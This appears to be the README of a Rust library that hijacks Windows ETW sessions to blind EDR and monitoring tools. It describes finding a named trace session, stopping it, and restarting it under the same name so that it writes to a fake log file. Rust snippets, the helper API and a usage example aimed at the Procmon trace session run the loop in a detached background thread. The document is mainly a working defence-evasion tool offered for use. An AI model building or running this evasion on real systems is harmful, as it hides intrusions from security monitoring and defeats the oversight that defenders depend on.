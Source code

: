 # ETW Hijacking

Event Tracing for Windows (ETW) is a native Windows telemetry subsystem used by many monitoring tools and EDRs. This project locates an active ETW session by name, stops it, and starts a replacement session that writes to a chosen file. The library exposes a small API so the operation runs in a detached background thread while the caller continues execution.

## Technique and how it is implemented in this library

ETW sessions are named objects that aggregate events from providers and deliver them to consumers or to disk. Windows exposes control APIs that allow querying, stopping and starting sessions. If a process that has the required privileges stops a session and then starts a new session under the same name but with a different target (for example a disk file), a consumer that stays attached to the original session instance can be left receiving no live events. The Binarly research documents practical ways this behavior can blind monitoring tools; this library implements the core control workflow from that analysis. [Binarly][1]

### How the library applies the technique

The library implements a compact control loop that performs three main actions in sequence: lookup, stop, and restart. The code uses the documented ETW APIs and a single safe memory layout for the `EVENT_TRACE_PROPERTIES` structure required by those APIs.

#### 1. Looking for the ETW session

The code tries a direct lookup using `QueryTraceW` first. The crate prepares a contiguous properties buffer using `make_properties_buffers(session_w, None)`, then calls `QueryTraceW`. On success the kernel fills the properties buffer and publishes the session handle in `Wnode.Anonymous1.HistoricalContext`. If the direct lookup fails or the instance is not visible, the code falls back to `QueryAllTracesW` and compares logger names to find the session.

Conceptual code snippet that references the library helper and API wrapper:

```rust
// Build the properties buffer that holds EVENT_TRACE_PROPERTIES + names
let (buf, props) = make_properties_buffers(Some(&session_wide), None);

// QueryTraceW with a default handle to lookup the instance
let status = unsafe {
    QueryTraceW(CONTROLTRACE_HANDLE::default(), session_wide.as_ptr(), props)
};
if status == ERROR_SUCCESS {
    // The kernel-published handle is stored in the Wnode header
    let kernel_handle = unsafe { (*props).Wnode.Anonymous1.HistoricalContext };
    // kernel_handle is used later with stop_trace(...)
}
```

The actual helper in the library is `make_properties_buffers(session_w: Option<&[u16]>, logfile_w: Option<&[u16]>) -> (Vec<u8>, *mut EVENT_TRACE_PROPERTIES)`. The direct lookup function is `query_trace_direct(session_w: &[u16]) -> Result<Option<CONTROLTRACE_HANDLE>, EtwError>`.

#### 2. Stop and restart

After locating the session handle (the kernel handle), the library calls `stop_trace(handle, session_w)` to stop the discovered instance. Immediately after a successful stop, the library constructs a new properties buffer that includes the same session name and a fake log file path, then calls `start_trace_with_file(session_w, fake_w)` which wraps `StartTraceW` and configures the new session to write to a sequential log file. This keeps the session name identical while changing the instance and the consumer-visible output.

Conceptual code snippet that references the library functions:

```rust
// Stop the original instance using the handle discovered earlier
let _ = stop_trace(kernel_handle, &session_wide)?;

// Prepare a properties buffer that contains both the session name and our fake file
let (buf2, props2) = make_properties_buffers(Some(&session_wide), Some(&fake_file_wide));
unsafe {
    (*props2).LogFileMode = EVENT_TRACE_FILE_MODE_SEQUENTIAL | EVENT_TRACE_REAL_TIME_MODE;
}

// Start a replacement session that writes to a disk file
let start_status = start_trace_with_file(&session_wide, &fake_file_wide)?;
```

The library exposes `stop_trace(handle: CONTROLTRACE_HANDLE, session_w: &[u16]) -> Result<(), EtwError>` and `start_trace_with_file(session_w: &[u16], fake_w: &[u16]) -> Result<(), EtwError>` as the wrappers that perform those operations and convert Win32 error codes into `EtwError`.

#### 3. Memory layout and helpers

`EVENT_TRACE_PROPERTIES` must be followed in memory by the UTF-16 logger name and the UTF-16 log file name. The library implements `make_properties_buffers(...)` which allocates a single `Vec<u8>` containing the header and both trailing name regions, writes the UTF-16 data into the trailing parts, and returns a typed `*mut EVENT_TRACE_PROPERTIES` pointing at the header. This single-buffer strategy matches the API expectation while keeping ownership clear and avoiding repeated heap allocations.

Key helpers in the codebase used by the loop are:

* `make_properties_buffers(session_w, logfile_w)` - builds the contiguous buffer expected by ETW control APIs.
* `query_trace_direct(session_w)` - direct `QueryTraceW` lookup, returns the kernel handle when available.
* `query_trace_enumerate_by_name(session)` - fallback using `QueryAllTracesW` and in-place name comparison.
* `stop_trace(...)` and `start_trace_with_file(...)` - wrappers around `StopTraceW` and `StartTraceW` with contextual `EtwError`.

### Runtime model

The public API exposes a `Config` and a `run(cfg)` function. `run` spawns a single detached thread that executes the loop described above; the caller is free to continue. When the process exits the operating system terminates the background thread. The library surfaces contextual errors (`EtwError`) for API failures (permission issues, missing instance, etc.) so callers can log or react to control problems.

#### Example of use

A minimal binary that starts the hijacker:

```rust
use etw_hijack_rs::{Config, run};

fn main() {
    let cfg = Config {
        session: "PROCMON TRACE".to_string(),
        fake_log_file: r"C:\Windows\Temp\fake.etl".to_string(),
    };

    // run spawns a detached background thread that executes the hijack loop
    run(cfg).expect("failed to start ETW hijacker");

    // main program continues while the background loop executes
}
```

## References

* [Binarly - Design issues of modern EDRs: bypassing ETW-based solutions][1]
* [Microsoft Learn - Event Tracing for Windows overview][2]
* [Microsoft Docs - QueryTraceW][3]
* [Microsoft Docs - QueryAllTracesW][4]
* [Microsoft Docs - StartTraceW][5]
* [Microsoft Docs - EVENT_TRACE_PROPERTIES][6]

[1]: https://www.binarly.io/blog/design-issues-of-modern-edrs-bypassing-etw-based-solutions
[2]: https://learn.microsoft.com/en-us/windows-hardware/drivers/devtest/event-tracing-for-windows--etw-
[3]: https://learn.microsoft.com/en-us/windows/win32/api/evntrace/nf-evntrace-querytracew
[4]: https://learn.microsoft.com/en-us/windows/win32/api/evntrace/nf-evntrace-queryalltracesw
[5]: https://learn.microsoft.com/en-us/windows/win32/api/evntrace/nf-evntrace-starttracew
[6]: https://learn.microsoft.com/en-us/windows/win32/api/evntrace/ns-evntrace-event_trace_properties
